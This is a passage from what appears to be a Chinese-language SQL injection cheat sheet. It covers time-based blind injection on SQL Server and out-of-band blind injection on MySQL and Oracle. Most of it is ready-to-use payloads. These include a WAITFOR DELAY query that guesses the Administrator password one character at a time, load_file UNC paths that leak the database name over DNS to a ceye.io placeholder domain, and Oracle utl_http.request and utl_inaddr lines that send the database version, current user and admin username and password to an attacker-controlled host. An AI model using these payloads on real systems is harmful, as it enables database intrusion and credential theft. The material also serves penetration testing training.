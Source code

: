 ### 3.时间盲注
我们前面注入是通过返回的不同来判断的，如果错误全被处理了，就不会有报错，这样页面就不会有任何不同。  
这种时候可以通过添加延时指令来判断注入语句是否执行，(每个数据库延时方法不同)例：
````
'; IF (1=2) WAITFOR DELAY '0:0:10'--
#不会产生延时
'; IF (1=1) WAITFOR DELAY '0:0:10'--
#会产生延时
````
然后同理每个字符判断：
````sql
'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
````
**注：时间盲注需要用单线程爆破**

### 4.带外数据盲注
带外数据是指通过其他的通道来回显数据，就是利用其他协议或者渠道，如http请求、DNS解析、SMB服务等将数据带出，通过能否成功带出来判断真假，当上面所有方法都不能能用了，可以尝试带外数据的方式注入。  
例使用DNS协议，大多时候DNS查询请求都不会被阻止，可以利用DNSlog来判断  
[ceye.io](http://ceye.io/) [dnslog.cn](http://www.dnslog.cn)等  
**注：一般需要高权限，mysql中只能用在windows平台，语句详情见不同数据库备忘录**
例;
````sql
#mysql
select load_file('\\\\XXX.xxxx.ceye.io\\aaa')
````
用带外方法把数据带出
例：
````sql
#mysql
' and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,0)-- 
````
也可以用request方式请求：
#### oracle中利用utl_http.request带外注入
````
# 测试有没有utl_http.request权限
'and exists (select count(*) from all_objects where object_name='UTL_HTTP') --

反弹注入语句用法
' and utl_http.request('http://xxx.xxx:xxx/'||(select banner from sys.v_$version where rownum=1))=1--
````
````
查看当前连接用户
' and utl_http.request('http://xxx.xxx:xxx/'%7C%7C(select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual))=1 --

查询系统用户
%27%20and%20utl_http.request('http://xxx.xxx:xxx/'%7c%7c (select user from dual))=1--

%27%20and%20utl_http.request('http://xxx.xxx:xxx/'%7c%7c(select member from v$logfile where rownum=1))=1--

%27%20and%20%20utl_http.request(%27http://xxx.xxx:xxx/%27%7c%7c(select%20instance_name%20from%20v$instance))=1--

查询admin的帐号和密码
' and utl_http.request('http://xxx.xxx:xxx/'||(select username||password from admin))=1 --
````
>utl_inaddr.get_host_address()函数和 SYS.DBMS_LDAP.INIT()函数也有类似效果
````
' and (select utl_inaddr.get_host_address((select user from dual)||'.xxx.ceye.io') from dual)is not null --

````